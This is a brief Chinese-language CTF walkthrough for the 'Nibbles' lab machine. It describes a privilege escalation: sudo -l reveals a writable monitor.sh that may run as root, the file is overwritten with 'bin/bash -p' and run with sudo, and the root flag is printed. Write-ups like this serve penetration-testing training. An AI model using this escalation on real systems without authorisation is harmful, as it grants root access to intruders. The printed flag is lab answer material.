

# Nibbles提權

nibbler這個目錄下的personal.zip需要解壓縮。

sudo -l:看到如果在那路徑下執行monitor.sh這個檔案，就能提權成功。

也可以去/tmp自己創一個monitor.sh。

ls -l: 它有w可以改寫。

echo 'bin/bash -p' > home/nibbler/personal/stuff/monitor.sh

sudo home/nibbler/personal/stuff/monitor.sh

提權指令。

root_flag: ef87a5a16886914a7a6393bec9355408